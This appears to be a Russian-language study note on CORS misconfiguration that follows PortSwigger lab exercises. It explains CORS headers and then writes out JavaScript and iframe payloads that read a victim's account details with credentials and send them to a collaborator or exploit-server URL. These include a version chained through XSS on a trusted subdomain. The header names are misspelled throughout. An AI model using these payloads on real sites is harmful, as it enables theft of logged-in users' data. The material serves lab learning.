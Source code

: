 # Введение 

>**Cross-origin Resource Sharing** - технология современных браузеров, которая позволяет предоставить веб-страницам доступ к ресурсам другого домена.

> **CORS** сравнивает **схему** (протокол передачи данных), **порт** и **домен верхнего уровня.** 
###### Acess-Control-Alow-Origin
Поле, отвечающее за доверенные веб-домены. Если оно настроено неправильно - например подставляется динамически, то это будет уязвимостью.
> Принимает 3 значения: **\***, **\<origin>**, **null**.
###### Acess-Control-Alow-Credentials
Позволяет передавать **cookie** в значении **true** или запрещает в - **false**.
Если сервер настроен с подстановочным знаком " **\*** " в качестве значения заголовка Acess-Control-Alow-Origin, то использованием учётных данных не допускается.

###### Acess-Control-Alow-Methods
Указывает допустимые для запроса методы: PUT, POST, OPTIONS.

###### Acess-Control-Alow-Headers
Указывает дополнительные разрешённые заголовки в запросе.

###### Acess-Control-Alow-Credentials
сообщает браузерам, разрешает ли сервер кросс-оригинальные HTTP-запросы, содержащие учетные данные.

###### Acess-Control-Max-Age: \<delta-seconds>
Количество секунд, на которое запрос может быть кеширован. Максимальное значение в Firefox составляет [24 часа](https://dxr.mozilla.org/mozilla-central/rev/7ae377917236b7e6111146aa9fb4c073c0efc7f4/netwerk/protocol/http/nsCORSListenerProxy.cpp#1131) (86400 секунд), в Chromium [10 минут](https://cs.chromium.org/chromium/src/services/network/public/cpp/cors/preflight_result.cc?rcl=43ab0ff8fdcf3a10a89c4d0d0421f461967f2bd5&l=36) (600 секунд). Chromium также определяет значение по умолчанию [5](https://cs.chromium.org/chromium/src/services/network/public/cpp/cors/preflight_result.cc?rcl=43ab0ff8fdcf3a10a89c4d0d0421f461967f2bd5&l=26) секунд. Значение **-1** отменяет кеширование, отправляя предзапрос перед каждым запросом.

### Pre-fight Requests
>![[Pre-fight Requests.png]]
# PortSwigger статья
https://portswigger.net/web-security/cors#what-is-cors-cross-origin-resource-sharing
# Уязвимости
>![[CORS уязвимости.png]]

### CORS при динамической подстановки значения Acess-Control-Alow-Origin
https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack
Если в значение ответа сервера **Acess-Control-Alow-Origin** динамически подставляется значение запроса **Origin**, то можно использовать **exploit сервер** со следующим пэйлоадом, чтобы получить данные пользователя:

```javascript
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://domain-A/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        var all = this.responseText;
        fetch('https://COLLABORATOR.oastify.com', { method: 'POST', mode: 'no-cors', body: all });
    };
</script>
```

### CORS: Неправильный парсинг заголовка Origin
https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack
Можно попытаться подставить заголовок **Origin: null** и на **exploit** сервере использовать **iframe**. Если работает заголовок **Origin: null**, то может отработать iframe, ведь он по умолчанию подставляет заголовок Origin: null:
```HTML
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://domain-A/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        var all = this.responseText;
        fetch('https://COLLABORATOR.oastify.com', { method: 'POST', mode: 'no-cors', body: all });
    };
</script>"</iframe>
```
Или если сайт, например, готов принимать только **Origin: normal-website.com**, но неправильно проверяет стоку, хакер может попытаться зарегистрировать домен **hackersnormal-website.com** или **normal-website.com.evil-user.net** и отправить запрос с него.

### XSS через доверительные отношения CORS
Даже "правильно" настроенный CORS устанавливает доверительные отношения между двумя источниками. Если сайт доверяет источнику, который уязвим для межсайтового скриптинга (XSS), то злоумышленник может использовать XSS для внедрения JavaScript, который использует CORS для получения конфиденциальной информации с сайта, доверяющего уязвимому приложению.
https://portswigger.net/web-security/cors/lab-breaking-https-attack
Пусть существует уязвимый к XSS ресурс через query параметры: **stock.domain-A.com**, и он является доверенным для **domain-A.com** через **Origin**.
В таком случае мы может использовать на **exploit** сервере следующие нагрузки:
```javascript 
<script> document.location="http://stock.domain-A.com/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://domain-A/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1" </script>
```
или возьмём ранее созданный пэйлоад:
```javascript
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://domain-A/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        var all = this.responseText;
        fetch('https://COLLABORATOR.oastify.com', { method: 'POST', mode: 'no-cors', body: all });
    };
</script>
```
вырежем `\n` и подставим в `document.location="http://stock.domain-A.com/?productId=...&storeId=1`:
```javascript
<script>
    document.location="http://stock.domain-A.com/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://domain-A/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {var all = this.responseText; fetch('https://COLLABORATOR', {method: 'POST', mode: 'no-cors', body: all })};%3c/script>&storeId=1"
</script>
```
или в URL кодировки вместо использования **`%3c/script>`**.